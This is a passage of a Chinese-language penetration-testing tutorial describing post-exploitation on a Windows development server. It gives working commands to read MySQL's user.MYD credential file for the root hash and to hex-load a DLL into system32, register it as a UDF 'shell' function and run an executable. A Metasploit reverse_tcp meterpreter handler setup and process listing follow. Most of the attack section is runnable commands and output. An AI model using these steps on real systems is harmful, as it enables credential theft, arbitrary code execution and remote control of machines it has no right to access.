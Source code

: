 * IP .3  
![](media/ded2f1377655e8467db234c432e8a51f.jpg)

为一台开发机。目标仅支持 asp，无其他脚本支持。但是服务器中安装有 mysql，php 等。并且无 asp to mysql Device Drive IIS 配置中也并不支持 php。msf 反弹后，继续搜集情报。

```bash
type C:\MySQL\MySQL Server 5.0\data\mysql\user.MYD
```

得到 root hash

在实际情况中，交互的shell下运行 `mysql -uroot -pxxx` 无法继续交互，需要参数 e 解决这个问题。
```bash
mysql -uroot -pxxxxxxxx mysql -e "create table a (cmd LONGBLOB);"
mysql -uroot -pxxxxxxxx mysql -e "insert into a (cmd) values (hex(load_file('C:\\xxxx\\xxxx.dll')));"
mysql -uroot -pxxxxxxxx mysql -e "SELECT unhex(cmd) FROM a INTO DUMPFILE
 'c:\\windows\\system32\\xxxx.dll';"
mysql -uroot -pxxxxxxxx mysql -e "CREATE FUNCTION shell RETURNS STRING SONAME 'udf.dll'"
mysql -uroot -pxxxxxxxx mysql -e "select shell('cmd','C:\\xxxx\\xxx\\xxxxx.exe');"
```
![](media/0778524b132d34c4e9ac2bdeb4f5ff26.jpg)

**如果限制上传大小同样可以hex解决上传大小问题。**

### 4、msf 操作实例  

以下为部分msf操作实例
```bash
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
msf exploit(handler) > exploit -l
meterpreter > ps

Process List
============

PID PPID Name Arch Session User Path
--- ---- ---- ---- ------- ---- ----

0 0 [System Process]
4 0 System x86 0 NT AUTHORITY\SYSTEM
304 4 smss.exe x86 0 NT AUTHORITY\SYSTEM\SystemRoot\System32\smss.exe
352 304 csrss.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\csrss.exe
376 304 winlogon.exe x86 0 NT AUTHORITY\SYSTEM \?? \C:\WINDOWS\system32\winlogon.exe
424 376 services.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\services.exe
436 376 lsass.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\lsass.exe
620 424 vmacthlp.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmacthlp.exe
636 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\svchost.exe
708 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
768 424 svchost.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\svchost.exe
812 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
828 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1000 424 spoolsv.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\spoolsv.exe
1028 424 msdtc.exe x86 0 NT AUTHORITY\NETWORK SERVICE C:\WINDOWS\system32\msdtc.exe
1160 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
1228 424 inetinfo.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\system32\inetsrv\inetinfo.exe
1252 424 sqlservr.exe x86 0 NT AUTHORITY\SYSTEM C:\PROGRA\~1\MICROS~1\MSSQL\binn\sqlservr.exe
1304 424 mysqld.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\MySQL\MySQL Server 5.1\bin\mysqld.exe
1348 424 svchost.exe x86 0 NT AUTHORITY\LOCAL SERVICE C:\WINDOWS\system32\svchost.exe
1408 424 vmtoolsd.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
1472 424 mssearch.exe x86 0 NT AUTHORITY\SYSTEM C:\Program Files\Common Files\System\MSSearch\Bin\mssearch.exe
1720 424 svchost.exe x86 0 NT AUTHORITY\SYSTEM C:\WINDOWS\System32\svchost.exe
```